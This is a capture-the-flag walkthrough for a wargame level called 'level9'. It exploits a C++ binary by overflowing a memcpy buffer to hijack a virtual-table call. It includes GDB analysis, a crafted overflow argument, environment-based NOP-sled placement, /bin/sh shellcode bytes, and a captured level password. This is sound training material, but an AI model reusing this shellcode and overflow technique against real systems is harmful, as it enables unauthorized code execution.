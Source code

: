 # 🚀 Level 9 - Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./level9
$ ./level9 coucou
$ ./level9 coucou coucou
```
- 🤔 No output regardless of the input.
- 🧩 Possibly vulnerable to buffer overflow or expecting crafted input.

## 🐞 Run in GDB
```bash
$ gdb -q ./level9
(gdb) disas main
```
- 🔍 The binary is C++ and calls operator new(unsigned int).
- 🧠 Objects are instantiated and methods invoked dynamically.
- 🔎 At main+142, the program dereferences a pointer and calls a function via a virtual table:

```asm
mov eax, DWORD PTR [eax]
call edx
```
## 🔬 Memory Layout & Overflow
- 💥 There's a call to memcpy, hinting at a potential overflow.
- 🎯 A pattern-based input shows a crash and helps identify the overflow offset:

```bash
$ ./get_offset.py 62626262
# => offset = 108
```
# 🧠 Exploit Strategy
- 🔁 At offset 0: place a pointer to the shellcode (in env).
- 🪤 At offset 108: overwrite the function pointer with a pointer to the pointer at offset 0.
- 🐚 Use shellcode in the environment and find its address via:

```bash
$ env -i payload=$(python -c 'print "\x90"*1000+"<shellcode>"') gdb ./level9
(gdb) x/200s environ
```
- 🧬 Example shellcode (spawns /bin/sh):

```bash
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\
\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\
\xe8\xdc\xff\xff\xff/bin/sh
```
# 🎯 Final Exploit
🧷 Assume shellcode is at 0xbffffc63 and static pointer at 0x0804a00c:

```bash
$ env -i payload=$(python -c 'print "\x90"*1000+"<shellcode>"') \
    ./level9 $(python -c 'print "\x63\xfc\xff\xbf"+"B"*104+"\x0c\xa0\x04\x08"')
```
## 🧾 Final Output
```bash
$ whoami
bonus0
$ cat ~/level10/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
- 🎉 Done!
